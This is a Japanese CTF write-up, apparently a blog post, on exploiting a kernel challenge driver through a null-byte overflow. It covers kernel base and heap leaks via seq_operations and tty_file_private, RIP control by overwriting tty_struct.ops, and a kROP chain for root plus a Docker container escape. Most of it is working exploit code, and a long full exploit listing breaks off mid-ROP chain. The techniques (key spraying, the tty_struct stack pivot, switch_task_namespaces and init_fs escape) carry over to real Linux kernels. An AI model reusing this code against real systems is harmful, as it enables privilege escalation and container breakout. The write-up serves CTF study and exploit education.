しばらく悩んだあと`keyctl_read`のmanpageを呼んでみると以下の記述が:

```keyctl_read.man
RETURN VALUE
       On  success  keyctl_read()  returns  the amount of data placed into the buffer.  If the buffer was too small, then the size of
       buffer required will be returned, and the contents of the buffer may have been overwritten in some undefined way.
```

あ、バッファサイズが小さい場合には、undefinedな動作が起こるらしい...。ということで、`keyctl_read()`に渡すバッファサイズを十分大きく(>=0x4330)してもう一度やってみると:




よさそう！


## leak kheap via `tty_struct` / `tty_file_private`

kbase leakができました。さて、どうしよう。一瞬このまま`user_key_payload`であり且つ`seq_operations`でもあるオブジェクトを`user_key_payload`としてkfreeし、`setxattr`を使って`seq_operations`内のポインタを書き換えてやればRIPが取れるじゃんと思いましたが、KPTIがある都合上stack pivotする必要があり、**heapのアドレスが必要**であることに気が付きました。
とりあえずはheapのアドレスが欲しい。幸いにも、kbaseのleakに使った`user_key_payload`だったオブジェクトは、上に乗っている`seq_operations`を解放して他のオブジェクトにしてやることで再度leakをすることができます。というわけで、`tty_struct`を使いましょう。`/dev/ptmx`を開くと以下のパスに到達します:

```drivers/tty/pty.c
struct tty_file_private {
    struct tty_struct *tty;
    struct file *file;
    struct list_head list;
};

static int ptmx_open(struct inode *inode, struct file *filp)
{
    struct tty_struct *tty;
    int retval;
    ...
    retval = tty_alloc_file(filp);
    ...
    tty = tty_init_dev(ptm_driver, index);
    ...
    tty_add_file(tty, filp);
    ...
}

int tty_alloc_file(struct file *file)
{
    struct tty_file_private *priv;

    priv = kmalloc(sizeof(*priv), GFP_KERNEL);
    file->private_data = priv;
    return 0;
}
void tty_add_file(struct tty_struct *tty, struct file *file)
{
    struct tty_file_private *priv = file->private_data;

    priv->tty = tty;
    priv->file = file;
    ...
}
```

ここで、`tty_alloc_file()`は`/dev/ptmx`の`struct file`の`private_data`メンバに対して`struct tty_file_private`を確保して入れます。これは`kmalloc-32`から確保されます。その後、`tty_init_dev()`で`struct tty_struct`を`kmalloc-1024`から確保します。そして、`tty_add_file()`で`struct tty_file_private`内に`struct tty_struct`のアドレスを格納します。つまり、`kmalloc-32`内の`tty_file_private`をleakすることで`kmalloc-1024`のアドレスをleakすることができます。

```leak_heap.c
  // Free all keys except UAFed key
  for (int ix = 0; ix != NUM_KEY_SPRAY * 2; ++ix) {
    if (keys[ix] != uafed_key) {
      if (keyctl_revoke(keys[ix]) != 0) errExit("keyctl_revoke");
      if (keyctl_unlink(keys[ix], KEY_SPEC_PROCESS_KEYRING) != 0) errExit("keyctl_unlink");
    }
  }

  // Place `tty_file_private` on UAFed `user_key_payload` in kmalloc-32
  for (int ix = 0; ix != NUM_TTY_SPRAY; ++ix) {
    if (open("/dev/ptmx", O_RDWR) <= 2) errExit("open tty");
  }

  // Read `tty_file_private.tty` which points to `tty_struct` in kmalloc-1024
  memset(keybuf, 0, 0x5000);
  if(keyctl_read(uafed_key, keybuf, 0x5000) <= 0) errExit("keyctl_read");
  ulong km1024_leaked = 0;
  ulong *tmp = (ulong*)keybuf + 1;
  for (int ix = 0; ix != 0x4330/8 - 2 - 1; ++ix) {
    if ((tmp[ix] >> (64-4*4)) == 0xFFFF && tmp[ix+2] == tmp[ix+3] && tmp[ix+2] != 0 && (tmp[ix] & 0xFF) == 0x00) { // list_head's next and prev are same
      km1024_leaked = tmp[ix];
      printf("[!] \t+0: 0x%lx (tty)\n", tmp[ix]);
      printf("[!] \t+1: 0x%lx (*file)\n", tmp[ix + 1]);
      printf("[!] \t+2: 0x%lx (list_head.next)\n", tmp[ix + 2]);
      printf("[!] \t+3: 0x%lx (list_head.prev)\n", tmp[ix + 3]);
      break;
    }
  }
  if (km1024_leaked == 0) errExit("Failed to leak kmalloc-1024");
  printf("[!] leaked kmalloc-1024: 0x%lx\n", km1024_leaked);
```



良さそう！と思いきや、実際に表示された`tty`のアドレスを見てみると、先頭がマジックナンバー(`0x5401`)ではなかったため違うポインタでした。何度試してみても、`tty`と思わしきものは50回に1回程度しかleakできない...。うーん、何が悪いのか。UAFされた`user_key_payload`以外のkeyをfreeして代わりに`tty_file_private`を置いたあとの`user_key_payload`が以下の感じ:


先頭32byteが`user_key_payload`で、上にはkbaseのleakに使った`seq_operations`が乗っかっています。leakできるのは`user_key_payload`よりも下の`0x4330`byte程度(これは、`seq_operations`をUAFで乗せた際に、`user_key_payload.datalen`が`single_next`のアドレスの下2byteである`4330`で上書きされるため)であるため見てみると、`seq_operations`の名残がいくつか見えますね。`0xa748dc1b1f063d98`は、おそらくフリーなスラブオブジェクト内のリストポインタが暗号化(`CONFIG_SLAB_FREELIST_HARDENED`)されているやつでしょう。このことから考えられることとしては、keyのスプレーが少なくてキャッシュ内がkeyで満たされる前に同じ領域に`seq_operations`が入ってきてしまったことが考えられます。よって、スプレーするkeyを増やしてみたところ以下の感じ:



偶然のような気もしますが、ランダムなQWORD(つまり、暗号化されたスラブのポインタ)と`0x41414141`(keyのペイロードとして入れた値)が同一オブジェクト内に入っているため、keyとして割り当てられていたオブジェクトがフリーされていることが分かります。しかし、フリーされたままということは`tty_file_private`をスプレーする数が少なかったということでしょうか。少し増やしてみましたが、やはりできません。悲しい。
ここで自分のコードを見てみると...:

```c
#define NUM_KEY_SPRAY 80 + 10
#define NUM_POLLFD 30 + 510 + 1 // stack, kmalloc-4k, kmalloc-32
#define NUM_POLLLIST_ALLOC 0x10 - 0x1

key_serial_t keys[NUM_KEY_SPRAY * 5] = {0};
for (int ix = 0; ix != NUM_KEY_SPRAY * 2; ++ix) {...}
for (int ix = 0; ix != NUM_KEY_SPRAY * 9; ++ix) {...}
```

**馬鹿！！大馬鹿！おまわりさん、馬鹿はこいつです！捕まえちゃってください！** マクロなんて所詮文字列置換なので、`NUM_KEY_SPRAY * 2`は`80 + 10 * 2`と評価されてしまいます！どうりで思った動きしないわけだよ！
というわけで、上のバグを直して十分な`tty_file_private`を確保してみた上で、一旦kbaseをリークした直後(keyは全て解放前。UAFされたkeyの上には`seq_operations`が乗っている)のヒープを見てみるとこんな感じ:



一番上がUAFされたkeyで、その直後にはたくさんのkeyが存在していることが分かります(paylod=`AAAAA`)。理想的な状況ですね。これでも上手くいかないのはなぜ...。ここで`key`周りのソースを見返してみます:

```security/keys/keyring.c
/*
 * Clean up a keyring when it is destroyed.  Unpublish its name if it had one
 * and dispose of its data.
 *
 * The garbage collector detects the final key_put(), removes the keyring from
 * the serial number tree and then does RCU synchronisation before coming here,
 * so we shouldn't need to worry about code poking around here with the RCU
 * readlock held by this time.
 */
static void keyring_destroy(struct key *keyring) {...}
```

**あ、`unlink`後にGC(`security/keys/gc.c`)がfreeするのか...!** ということは、`tty_file_private`をスプレーする前に1秒ほどsleepしてGCを待ってやるといいのではと思いやってみると:


よさそう〜〜〜！

## get RIP by overwriting `tty_struct.ops`

さて、続いてRIPをとりましょう。や、取らなくても年は越せるんですが。
現状ですが、`kmalloc-32`にUAFされた`user_key_payload`(+上に乗っかっている`tty_file_private`)があります。このUAFを再利用して、今度はUAF writeをしましょう。具体的には、`poll_list`が`kmalloc-1024 -> kmalloc-32`のリストになっている時、`kmalloc-32`をUAFで上書きし、`poll_list.next`ポインタに`tty_struct(kmalloc-1024)`のアドレスを書き込んでやります。その状態で`poll_list`をfreeすることで関係ない`tty_struct`をfreeしてやることができます。`tty_struct`をUAFできたら、あとはopsを書き換えてやればいいはず...多分...!
というわけで、それらをしてくれるコードがこれです(3分クッキング感):

```.c
  // Free `seq_operations`, one of which is `user_key_payload`
  for (int ix = NUM_SEQOPERATIONS - NUM_FREE_SEQOPERATIONS; ix != NUM_SEQOPERATIONS; ++ix) {
    close(seqops_fd[ix]);
  }
  puts("[+] Freeed seq_operations");
  
  // Spray `poll_list` in kmalloc-32, one of which is placed on `user_key_payload`
  assign_to_core(2);
  neverend = 1;
  puts("[+] spraying `poll_list` in kmalloc-32...");
  num_threads = 0;
  for (int ix = 0; ix != NUM_2ND_POLLLIST_ALLOC; ++ix) {
    struct alloc_poll_list_t *arg = malloc(sizeof(struct alloc_poll_list_t));
    arg->fd = just_fd; arg->id = ix;
    arg->timeout_ms = 3000; // must 1000 < timeout_ms, to wait key GC
    arg->num_size = 30 + 2;
    if(pthread_create(&threads[ix], NULL, alloc_poll_list, arg) != 0) errExit("pthread_create");
  }

  // Revoke UAFed key, which is on `poll_list` in kmalloc-32
  puts("[+] Freeing UAFed key...");
  free_key(uafed_key);
  sleep(1);

  // Spray keys on UAFed `poll_list`
  puts("[+] spraying keys in kmalloc-32");
  assert(num_keys == 0);
  {
    char *key_payload = malloc(SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
    memset(key_payload, 'X', SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
     _alloc_key_prefill_ulong_val = 0xDEADBEEF;

    for (int ix = 0; ix != NUM_2ND_KEY_SPRAY; ++ix) {
      alloc_key(key_payload, SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS, _alloc_key_prefill_ulong);
    }
  }
```

`user_key_payload`を確保する前に予め`setxattr()`で`0xDEADBEEF`を書き込んでいます。これによって、`user_key_payload.rcu`がこの値になり、且つ`poll_list.next`がこの値になるはず。実行してみると...:



??? `Kernel memory overwrite attempt detected to SLUB object 'filp'`らしいです。ソースを読んでみると、これは`CONFIG_HARDENED_USERCOPY`が有効な場合に表示される文面みたいですね。

```mm/usercopy.c
void __noreturn usercopy_abort(const char *name, const char *detail,
			       bool to_user, unsigned long offset,
			       unsigned long len)
{
    pr_emerg("Kernel memory %s attempt detected %s %s%s%s%s (offset %lu, size %lu)!\n",
       to_user ? "exposure" : "overwrite",
       to_user ? "from" : "to",
       name ? : "unknown?!",
       detail ? " '" : "", detail ? : "", detail ? "'" : "",
       offset, len);
    BUG();
}
void __check_heap_object(const void *ptr, unsigned long n, struct page *page, bool to_user)
{
    ...
    usercopy_abort("SLUB object", s->name, to_user, offset, n);
}
```

何回かやってみると、keyのスプレーの際に`filp`とか`worker_pool`とかいう`kmalloc-256`サイズのキャッシュへのoverwriteが検知されて落ちているみたいです。おそらくですが、`poll_list`をスプレーするスレッドを立ち上げてからすぐに`user_key_payload`をfreeさせるようにしていたため、UAFしているオブジェクトに`poll_list`が確保される前に`user_key_payload`がfreeされてしまい、`seq_operations`のfreeと相まってdouble freeになってヒープが崩壊してしまったせいなんじゃないかと思います。そこで、スレッドを立ち上げた後に少しだけsleepしてみると、とりあえずこのエラーは出なくなりました。**必要なguessingは、必要です。**


dead beef、良さそう！続いて、deadbeefをちゃんと先程leakした`tty_struct`のアドレスにしてUAFし、その後で`0x1000`サイズの`user_key_payload`をスプレーすることで全て`0x5401`(`tty_struct`のmagic number)で埋めてみると:



うんうん、良さそう。`tty_struct.ops`も一緒に`0x5401`に書き換えたので、ちゃんと落ちてくれてますね！RIPが取れました。

## get root by kROP on `tty_struct` itself

TTYへの`ioctl()`によって、ジャンプ直後のレジスタの値は以下のようになります:



`RBX, RCX, RSI`は第2引数で4byte、`RDX, R8, R12`は第3引数で8byteだけ任意に指定できます。`RDI`と`RBP`と`R14`は`tty_struct`自身を指します。stack pivotをするために、`push RXX, JMP RYY, POP RSP`のようなことをしたいのですが、`RSI`達は4byteしか指定できないため使うことはできません。
さて、みなさんも覚えておきましょう、**`tty_struct`はまじでROPしやすいです**:

```payload.c
    char *key_payload = malloc(0x1000);
    ulong *buf = (ulong*)key_payload;
    buf[0] = 0x5401; // magic, kref (later `leave`ed and become RBP)
    buf[1] = KADDR(0xffffffff8191515a); // dev (later become ret addr of `leave` gadget, which is `pop rsp`)
    buf[2] = km1024_leaked + 0x50 + 0x120; // driver (MUST BE VALID) (later `pop rsp`ed)
    buf[3] = km1024_leaked + 0x50; // ops

    ulong *ops = (ulong*)(key_payload + 0x50);
    for (int ix = 0; ix != 0x120 / 8; ++ix) { // sizeof tty_operations
      ops[ix] = KADDR(0xffffffff81577609); // pop rsp
    }

    ulong *rop = (ulong*)((char*)ops + 0x120);
    *rop++ = ...

    assert((ulong)rop - (ulong)key_payload < 516);
```

まず、`ops`を書き換えて`tty_struct + 0x50`を指すようにします。この領域に偽のvtableとして`leave`するガジェットのアドレスを入れておきます。すると、上で書いたように`RBP`には`tty_struct`自身のアドレスが入っているため、`leave`すると`tty_struct`のアドレスが`RSP`に入ります。この状態で`RET`すると、`tty_struct + 8`に入っているアドレスに戻ることになります。ここは`tty_struct.dev`ポインタであり、壊れてても良い値なので、ここに`tty_struct + 0x50 + 0x120`のアドレスを入れておきます。あとは、`+0x50 + 0x120`の領域に好きなROPを組んでおくだけです。本当に、ROPのためにある構造体と言っても過言ではありません。偶然magic numberもvalidでなくてはいけないポインタ(`+0x10: driver`)を壊すことなくいけます。奇跡の構造体です。
ROP自体はこんな感じ:

```rop.c
  *rop++ = KADDR(0xffffffff81906510); // pop rdi
  *rop++ = 0;
  *rop++ = KADDR(0xffffffff810ebc90); // prepare_kernel_cred

  *rop++ = KADDR(0xffffffff812c32a9); // pop rcx (to prevent later `rep`)
  *rop ++ = 0;
  *rop++ = KADDR(0xffffffff81a05e4b); // mov rdi, rax; rep movsq; (simple `mov rdi, rax` not found)
  *rop++ = KADDR(0xffffffff810eba40); // commit_creds

  *rop++ = KADDR(0xffffffff81c00ef0 + 0x16); // swapgs_restore_regs_and_return_to_usermode + 0x16
                                             // mov rdi,rsp; mov rsp,QWORD PTR gs:0x6004; push QWORD PTR [rdi+0x30]; ...
  *rop++ = 0;
  *rop++ = 0;
  *rop++ = (ulong)NIRUGIRI;
  *rop++ = user_cs;
  *rop++ = user_rflags;
  *rop++ = (ulong)krop_stack + KROP_USTACK_SIZE / 2;
  *rop++ = user_ss;
```



ルート！

## container escape

しかし、この問題はこれで終わりではありません。コンテナの中なので、コンテナエスケープする必要があります。個々から先の知識は全くありません、またもやカンニングしましょう。こっから先は写経です。意味のある写経です。カス写経です。
といっても、RIPとれてればそんなに難しいことではないみたい。docker内では`setns()` syscallは禁止されてるから、今回はfilesystem namespaceだけ移動させます。以下の感じ:

```abst.c
// ROOTをとるには...?
commit_cred(prepare_kernel_cred(0));

// docker escape(fs)するには...?
switch_task_namespaces(find_task_vpid(1), init_nsproxy);
current->fs = copy_fs_struct(init_fs);
```

これだけ！やった〜〜〜〜。

```rop.c
  *rop++ = KADDR(0xffffffff81906510); // pop rdi
  *rop++ = 1; // init process in docker container
  *rop++ = KADDR(0xffffffff810e4fc0); // find_task_by_vpid
  *rop++ = KADDR(0xffffffff812c32a9); // pop rcx (to prevent later `rep`)
  *rop ++ = 0;
  *rop++ = KADDR(0xffffffff81a05e4b); // mov rdi, rax; rep movsq; (simple `mov rdi, rax` not found)
  *rop++ = KADDR(0xffffffff819b21d3); // pop rsi
  *rop++ = KADDR(0xffffffff8245a720); // &init_nsproxy
  *rop++ = KADDR(0xffffffff810ea4e0); // switch_task_namespaces

  *rop++ = KADDR(0xffffffff81906510); // pop rdi
  *rop++ = KADDR(0xffffffff82589740); // &init_fs
  *rop++ = KADDR(0xffffffff812e7350); // copy_fs_struct
  *rop++ = KADDR(0xffffffff8131dab0); // push rax; pop rbx

  *rop++ = KADDR(0xffffffff81906510); // pop rdi
  *rop++ = getpid();
  *rop++ = KADDR(0xffffffff810e4fc0); // find_task_by_vpid

  *rop++ = KADDR(0xffffffff8117668f); // pop rdx
  *rop++ = 0x6E0;
  *rop++ = KADDR(0xffffffff81029e7d); // add rax, rdx
  *rop++ = KADDR(0xffffffff817e1d6d); // mov qword [rax], rbx ; pop rbx ; ret ; (1 found)
  *rop++ = 0; // trash
```


## アウトロ




うおうおふぃっしゅらいふ。

## Full Exploit

```exploit.c
#include "./exploit.h"
#include <bits/pthreadtypes.h>
#include <keyutils.h>
#include <pthread.h>
#include <sys/mman.h>
#include <unistd.h>

/*********** commands ******************/
#define DEV_PATH "/proc_rw/cormon"   // the path the device is placed

/*********** constants ******************/
#define DESC_KEY_TOBE_OVERWRITTEN_SEQOPS "exploit0"
#define SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS 0x8
#define NUM_KEY_SPRAY (0x60)
#define NUM_2ND_KEY_SPRAY (NUM_KEY_SPRAY * 2)
#define NUM_3RD_KEY_SPRAY (0x10 + 0x8)
#define NUM_3RD_KEY_SIZE (0x290)

#define NUM_PREPARE_KM32_SPRAY 2000

#define NUM_POLLFD (30 + 510 + 1) // stack, kmalloc-4k, kmalloc-32
#define NUM_1ST_POLLLIST_ALLOC (0x10 - 0x1 + 0x1)
#define NUM_2ND_POLLLIST_ALLOC (0x120 + 0x20 + 0x40 + 0x40 + 0x40 + 0x200)
#define TIMEOUT_POLLFD 2000 // 2s

#define NUM_TTY_SPRAY (0x100)

#define NUM_SEQOPERATIONS (NUM_1ST_POLLLIST_ALLOC + 0x100)
#define NUM_FREE_SEQOPERATIONS (0x160)

#define KADDR(addr) ((ulong)addr - 0xffffffff81000000 + kbase)

/*********** globals ******************/

int cormon_fd;
int just_fd;
key_serial_t keys[NUM_KEY_SPRAY * 5] = {0};
int seqops_fd[0x500];
int tty_fd[NUM_TTY_SPRAY * 2];
char *cormon_buf[0x1000 + 0x20] = {0};
pthread_t threads[0x1000];
int num_threads = 0;
pthread_mutex_t mutex = PTHREAD_MUTEX_INITIALIZER;

ulong kbase = 0;
int neverend = 0;

char *krop_stack = NULL;
#define KROP_USTACK_SIZE 0x10000

/*********** utils ******************/

int num_keys = 0;
ulong _alloc_key_prefill_ulong_val = 0;
void _alloc_key_prefill_ulong() {
  static char *data = NULL;
  if (data == NULL) data = calloc(0x1000, 1);
  //for (int ix = 0; ix != 32 / 8; ++ix) ((ulong*)data)[ix] = _alloc_key_prefill_ulong_val;
  ((ulong*)data)[0] = _alloc_key_prefill_ulong_val;
  setxattr("/home/user/.bashrc", "user.x", data, 32, XATTR_CREATE);
}
void _alloc_key_prefill_null(void) {
  _alloc_key_prefill_ulong_val = 0;
  _alloc_key_prefill_ulong();
}
void alloc_key(char *payload, int size, void (*prefill)(void)) {
  static char *desc = NULL;
  if (desc == NULL) desc = calloc(1, 0x1000);

  sprintf(desc, "key_%d", num_keys);
  if (prefill != NULL) prefill();
  keys[num_keys] = add_key("user", desc, payload, size, KEY_SPEC_PROCESS_KEYRING);
  if (keys[num_keys] < 0) errExit("alloc_key");
  num_keys++;
}
void spray_keys(int num, char c) {
  static char *payload = NULL;
  if (payload == NULL) payload = calloc(1, 0x1000);
  char *key_payload = malloc(SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
  memset(key_payload, c, SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);

  for (int ix = 0; ix != num; ++ix) alloc_key(key_payload, SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS, _alloc_key_prefill_null);
}
void free_key(key_serial_t key) {
  if (keyctl_revoke(key) != 0) errExit("keyctl_revoke");
  if (keyctl_unlink(key, KEY_SPEC_PROCESS_KEYRING) != 0) errExit("keyctl_unlink");
  --num_keys;
}

struct alloc_poll_list_t {
  int fd;
  int id;
  int num_size;
  int timeout_ms;
};
void* alloc_poll_list(void *_arg) {
  struct pollfd fds[NUM_POLLFD];
  struct alloc_poll_list_t *arg = (struct alloc_poll_list_t *)_arg;
  assert(arg->fd >= 2);

  for (int ix = 0; ix != arg->num_size; ++ix) {
    fds[ix].fd = arg->fd;
    fds[ix].events = POLLERR;
  }
  pthread_mutex_lock(&mutex);
    ++num_threads;
  pthread_mutex_unlock(&mutex);

  thread_assign_to_core(0);
  if (poll(fds, arg->num_size, arg->timeout_ms) != 0) errExit("poll");

  pthread_mutex_lock(&mutex);
    --num_threads;
  pthread_mutex_unlock(&mutex);

  if (neverend) {
    thread_assign_to_core(2);
    while(neverend);
  }

  return NULL;
}

void nullbyte_overflow(void) {
  assert(cormon_fd >= 2);
  memset(cormon_buf, 'B', 0x1000 + 0x20);
  strcpy((char*)cormon_buf + 1, "THIS_IS_CORMON_BUFFER");
  *cormon_buf = 0x00;

  if(write(cormon_fd, cormon_buf, 0x1000) != -1) errExit("nullbyte_overflow");
  errno = 0; // `write()` above must fail, so clear errno here
}

/*********** main ******************/

int main(int argc, char *argv[]) {
  char *keybuf = malloc(0x5000); // must be >= 0x4330 (low 2byte of single_next())
  puts("[.] Starting exploit.");

  puts("[+] preparing stack for later kROP...");
  save_state();
  krop_stack = mmap((void*)0x10000000, KROP_USTACK_SIZE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1, 0);
  if (krop_stack == MAP_FAILED) errExit("mmap");

  assign_to_core(0);
  if ((cormon_fd = open(DEV_PATH, O_RDWR)) <= 2) errExit("open cormon");

  // Pre-spray kmalloc-32
  puts("[+] pre-spraying kmalloc-32...");
  for (int ix = 0; ix != NUM_PREPARE_KM32_SPRAY; ++ix) {
    if (open("/proc/self/stat", O_RDONLY) <= 2) errExit("prespray");
  }

  // Spray victim `user_key_payload` in kmalloc-32
  puts("[+] Spraying keys...");
  spray_keys(NUM_KEY_SPRAY, 'A');

  // Spray poll_list in kmalloc-32 and kmalloc-4k
  just_fd = open("/etc/hosts", O_RDONLY);
  printf("[+] Spraying poll_list (fd=%d)...\n", just_fd);
  if (just_fd <= 2) errExit("just_fd");

  assign_to_core(1);
  num_threads = 0;
  for (int ix = 0; ix != NUM_1ST_POLLLIST_ALLOC + 3; ++ix) {
    struct alloc_poll_list_t *arg = malloc(sizeof(struct alloc_poll_list_t));
    arg->fd = just_fd; arg->id = ix;
    arg->timeout_ms = ix < NUM_1ST_POLLLIST_ALLOC ? TIMEOUT_POLLFD : 1;;
    arg->num_size = NUM_POLLFD;
    if(pthread_create(&threads[ix], NULL, alloc_poll_list, arg) != 0) errExit("pthread_create");
  }

  // Wait some of `poll_list` in kmalloc-4k is freed (these are expected to be reused by cormon_proc_write())
  assign_to_core(0);
  usleep(500 * 1000); // wait threads are initialized
  for(int ix = NUM_1ST_POLLLIST_ALLOC; ix < NUM_1ST_POLLLIST_ALLOC + 3; ++ix) {
    pthread_join(threads[ix], NULL);
  }

  // Spray again victim `user_key_payload` in kmalloc-32
  spray_keys(NUM_KEY_SPRAY, 'A');

  // NULL-byte overflow (hopelly) on `poll_list`, whose `next` pointer get pointing to `user_key_payload` in kmalloc-32.
  puts("[+] NULL-byte overflow ing...");
  nullbyte_overflow();

  // Wait all `poll_list` are freed
  for (int ix = 0; ix != NUM_1ST_POLLLIST_ALLOC; ++ix) {
    open("/proc/self/stat", O_RDONLY);
    pthread_join(threads[ix], NULL);
  }
  puts("[+] Freed all 'poll_list'");

  // Place `seq_operations` on UAFed `user_key_payload` in kmalloc-32
  for(int ix = 0; ix != NUM_SEQOPERATIONS; ++ix) {
    if ((seqops_fd[ix] = open("/proc/self/stat", O_RDONLY)) <= 2) errExit("open seqops");
  }

  // Check all keys to leak kbase via `seq_operations`
  ulong single_show = 0;
  key_serial_t uafed_key = 0;
  for (int ix = 0; ix != NUM_KEY_SPRAY * 2; ++ix) {
    int num_read;
    memset(keybuf, 0, 0x5000);
    if((num_read = keyctl_read(keys[ix], keybuf, 0x5000)) <= 0) errExit("keyctl_read");
    if (strncmp(keybuf, "AAAA", 4) != 0) {
      single_show = *(ulong*)keybuf;
      uafed_key = keys[ix];
      if (single_show == 0) {
        puts("[-] somehow, empty key found");
      } else break;
    }
  }
  if (single_show == 0) {
    puts("[-] Failed to leak kbase");
    exit(1);
  }
  printf("[!] leaked single_show: 0x%lx\n", single_show);
  kbase = single_show - (0xffffffff813275c0 - 0xffffffff81000000);
  printf("[!] leaked kbase: 0x%lx\n", kbase);

  // Free all keys except UAFed key
  for (int ix = 0; ix != NUM_KEY_SPRAY * 2; ++ix) {
    if (keys[ix] != uafed_key) free_key(keys[ix]);
  }
  sleep(1); // wait GC(security/keys/gc.c) actually frees keys

  // Place `tty_file_private` on UAFed `user_key_payload` in kmalloc-32
  for (int ix = 0; ix != NUM_TTY_SPRAY; ++ix) {
    if ((tty_fd[ix] = open("/dev/ptmx", O_RDWR | O_NOCTTY)) <= 2) errExit("open tty");
  }

  // Read `tty_file_private.tty` which points to `tty_struct` in kmalloc-1024
  memset(keybuf, 0, 0x5000);
  int num_read = 0;
  if((num_read = keyctl_read(uafed_key, keybuf, 0x5000)) <= 0) errExit("keyctl_read");
  printf("[+] read 0x%x bytes from UAFed key\n", num_read);
  ulong km1024_leaked = 0;
  ulong *tmp = (ulong*)keybuf + 1;
  for (int ix = 0; ix != 0x4330/8 - 2 - 1; ++ix) {
    if (
      (tmp[ix] >> (64-4*4)) == 0xFFFF && // tty must be in kheap
      (tmp[ix + 1] >> (64-4*4)) == 0xFFFF && // file must be in kheap
      tmp[ix+2] == tmp[ix+3] && tmp[ix+2] != 0 && // list_head's next and prev are same
      (tmp[ix] & 0xFF) == 0x00 && // tty must be 0x100 aligned
      (tmp[ix + 1] & 0xFF) == 0x00 && // file must be 0x100 aligned
      (tmp[ix + 2] & 0xF) == 0x08
    ) {
      if (km1024_leaked == 0) {
        km1024_leaked = tmp[ix];
        printf("[!] \t+0: 0x%lx (tty)\n", tmp[ix]);
        printf("[!] \t+1: 0x%lx (*file)\n", tmp[ix + 1]);
        printf("[!] \t+2: 0x%lx (list_head.next)\n", tmp[ix + 2]);
        printf("[!] \t+3: 0x%lx (list_head.prev)\n", tmp[ix + 3]);
        break;
      }
    }
  }
  if (km1024_leaked == 0) {
    print_curious(keybuf, 0x4300, 0);
    errExit("Failed to leak kmalloc-1024");
  }
  printf("[!] leaked kmalloc-1024: 0x%lx\n", km1024_leaked);

  /********************************************************/

  // Free `seq_operations`, one of which is `user_key_payload`
  for (int ix = NUM_SEQOPERATIONS - NUM_FREE_SEQOPERATIONS; ix != NUM_SEQOPERATIONS; ++ix) {
    close(seqops_fd[ix]);
  }
  puts("[+] Freeed seq_operations");

  sleep(5); // TODO
  // Spray `poll_list` in kmalloc-32, one of which is placed on `user_key_payload`
  assign_to_core(2);
  neverend = 1;
  puts("[+] spraying `poll_list` in kmalloc-32...");
  num_threads = 0;
  for (int ix = 0; ix != NUM_2ND_POLLLIST_ALLOC; ++ix) {
    struct alloc_poll_list_t *arg = malloc(sizeof(struct alloc_poll_list_t));
    arg->fd = just_fd; arg->id = ix;
    arg->timeout_ms = 3000; // must 1000 < timeout_ms, to wait key GC
    arg->num_size = 30 + 2;
    if(pthread_create(&threads[ix], NULL, alloc_poll_list, arg) != 0) errExit("pthread_create");
  }
  // wait threads are initialized (to prevent double free)
  assign_to_core(0);
  while(num_threads != NUM_2ND_POLLLIST_ALLOC);
  usleep(300 * 1000);

  // Revoke UAFed key, which is on `poll_list` in kmalloc-32
  puts("[+] Freeing UAFed key...");
  free_key(uafed_key);
  sleep(1);

  // Spray keys on UAFed `poll_list`
  puts("[+] spraying keys in kmalloc-32");
  assert(num_keys == 0);
  {
    char *key_payload = malloc(SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
    memset(key_payload, 'X', SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
    ((ulong*)key_payload)[0] = 0x9999999999999999; // debug
     _alloc_key_prefill_ulong_val = km1024_leaked - 0x18; // 0x18 is offset where `user_key_payload` can modify from

    for (int ix = 0; ix != NUM_2ND_KEY_SPRAY; ++ix) {
      alloc_key(key_payload, SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS, _alloc_key_prefill_ulong);
    }
  }

  puts("[+] waiting corrupted `poll_list` is freed...");
  neverend = 0;
  for(int ix = 0; ix != NUM_2ND_POLLLIST_ALLOC; ++ix) {
    pthread_join(threads[ix], NULL);
  }

  // Free all keys
  for (int ix = 0; ix != NUM_2ND_KEY_SPRAY; ++ix) {
    free_key(keys[ix]);
  }
  puts("[+] waiting all keys are freed by GC...");
  sleep(1); // wait GC(security/keys/gc.c) actually frees keys

  // Spray keys in `kmalloc-1024`, one of which must be placed on `tty_struct`
  puts("[+] spraying keys in kmalloc-1024");
  assert(num_keys == 0);
  {
    char *key_payload = malloc(0x1000);
    ulong *buf = (ulong*)key_payload;
    buf[0] = 0x5401; // magic, kref (later `leave`ed and become RBP)
    buf[1] = KADDR(0xffffffff8191515a); // dev (later become ret addr of `leave` gadget, which is `pop rsp`)
    buf[2] = km1024_leaked + 0x50 + 0x120; // driver (MUST BE VALID) (later `pop rsp`ed)
    buf[3] = km1024_leaked + 0x50; // ops

    ulong *ops = (ulong*)(key_payload + 0x50);
    for (int ix = 0; ix != 0x120 / 8; ++ix) { // sizeof tty_operations
      ops[ix] = KADDR(0xffffffff81577609); // pop rsp
    }

    ulong *rop = (ulong*)((char*)ops + 0x120);
    *rop++ = KADDR(0xffffffff81906510); // pop rdi
    *rop++ = 0;
    *rop++ = KADDR(0xffffffff810ebc90); // prepare_kernel_cred

    *rop++ = KADDR(0xffffffff812c32a9); // pop rcx (to prevent later `rep`)
    *rop ++ = 0;
    *rop++ = KADDR(0xffffffff81a05e4b); // mov rdi, rax; rep movsq; (simple `mov rdi, rax` not found)
    *rop++ = KADDR(0xffffffff810eba40); // commit_creds

    *rop++ = KADDR(0xffffffff81906510); // pop rdi
    *rop++ = 1; // init process in docker container
    *rop++ = KADDR(0xffffffff810e4fc0); // find_task_by_vpid
    *rop++ = KADDR(0xffffffff812c32a9); // pop rcx (to prevent later `rep`)
    *rop ++ = 0;
    *rop++ = KADDR(0xffffffff81a05e4b); // mov rdi, rax; rep movsq; (simple `mov rdi, rax` not found)
    *rop++ = KADDR(0xffffffff819b21d3); // pop rsi
    *rop++ = KADDR(0xffffffff8245a720); // &init_nsproxy
    *rop++ = KADDR(0xffffffff810ea4e0); // switch_task_namespaces

    *rop++ = KADDR(0xffffffff81906510); // pop rdi
    *rop++ = KADDR(0xffffffff82589740); // &init_fs
    *rop++ = KADDR(0xffffffff812e7350); // copy_fs_struct
    *rop++ = KADDR(0xffffffff8131dab0); // push rax; pop rbx

